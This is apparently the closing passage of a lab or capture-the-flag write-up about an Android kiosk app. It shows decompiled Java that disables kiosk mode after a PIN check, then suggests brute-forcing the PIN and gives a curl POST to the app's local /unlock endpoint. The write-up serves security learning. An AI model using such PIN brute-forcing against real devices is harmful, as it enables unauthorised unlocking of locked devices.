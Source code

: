 ```java
        }
    });
}

static /* synthetic */ void lambda$performUnlockActions$0(Context context) {
    Toast.makeText(context, "Remote Action Triggered (PIN OK)", Toast.LENGTH_SHORT).show();
    context.getSharedPreferences("kiosk_state", 0).edit().putBoolean("is_kiosk_active", false).apply();
    LocalBroadcastManager.getInstance(context).sendBroadcast(new Intent(HttpUnlockService.ACTION_STOP_KIOSK));
    Log.d(TAG, "Sent local broadcast to stop kiosk enforcement: com.eightksec.borderdroid.ACTION_STOP_KIOSK_ENFORCEMENT");
    Log.i(TAG, "Requesting stop of HttpUnlockService from RemoteTriggerReceiver.");
    context.stopService(new Intent(context, (Class<?>) HttpUnlockService.class));
    Intent intent = new Intent(context, (Class<?>) DashboardActivity.class);
    intent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
    context.startActivity(intent);
    Log.i(TAG, "Finished executing unlock actions within Handler.");
}
```

How we can abuse of this vulnerability?
Simple, just **brute forcing** the PIN **via Request**.
But just for be a little concise, Ill show you the *curl* command.
```bash
curl -i -X POST http://192.168.0.6:8080/unlock \
  -H 'Content-Type: application/json' \
  -d '{"pin":"111111"}'
```
Remember change the *pin* value with the initial that you set when the app was installed.

I hope you found it useful (: